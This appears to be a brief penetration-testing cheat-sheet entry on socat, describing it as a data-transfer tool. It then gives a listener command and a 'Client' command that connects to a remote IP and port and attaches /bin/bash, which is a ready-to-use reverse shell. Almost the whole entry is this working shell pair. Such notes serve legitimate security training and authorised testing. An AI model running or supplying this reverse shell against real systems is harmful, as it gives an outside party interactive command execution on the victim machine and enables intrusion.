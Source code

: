 # Socat

>Socat is a command-line utility that establishes two bidirectional byte streams and transfers data between them. It is similar to Netcat but has additional useful features.

###### Listener:
```bash
socat -d -d TCP4-LISTEN:$PORT STDOUT
```

###### Client:
```bash
socat TCP4:$IPADDRESS:$PORT EXEC:/bin/bash
```
